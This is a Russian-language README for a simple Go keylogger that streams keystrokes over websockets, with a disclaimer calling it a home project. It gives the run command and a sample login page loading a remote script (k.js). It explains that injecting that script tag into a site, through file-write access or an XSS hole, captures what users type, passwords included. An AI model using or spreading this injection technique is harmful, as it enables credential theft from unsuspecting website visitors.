 # Дисклеймер
Автор не несет ответственности за использование вами этой программы.
Она создавалась в качестве домашнего проекта.
Использование этой программы в плохих целях может повлечь уголовную ответсвенность.

# keylogger
Простой кейлоггер, написанный на языке go, который использует websockets.

## Как это работает?
Для того, чтобы запустить программу нужно первоначально установить go. После установки, в терминале папке в папке с файлами ввести следующую комманду

go run main.go -listen-addr=127.0.0.1:8080 -ws-addr=127.0.0.1:8080
Эта комманда запускает на локальном сервере адресс для вебсокета, который будет принимать нажатые клавиши.

## Как протестировать кейлоггер?
Нужно перейти на сайт http://jsbin.com и ввести следующий код

<!DOCTYPE html>
<html>
<head>
<title>Login</title>
</head>
<body>
<script src='http://localhost:8080/k.js'></script>
<form action='/login' method='post'>
<input name='username'/>
<input name='password'/>
<input type="submit"/>
</form>
</body>
</html>

После запуска программы в терминале начнут отобржаться буквы, который нажал пользователь.
Данная программа работает по следющиму принципу:
Если в сайте вы смогли получить доступ к изменению файлов или нашли xss уязвимость, то добавим строчку кода <script src='http://localhost:8080/k.js'></script> 
вы сможете получать к данным, которые вводят пользователи.

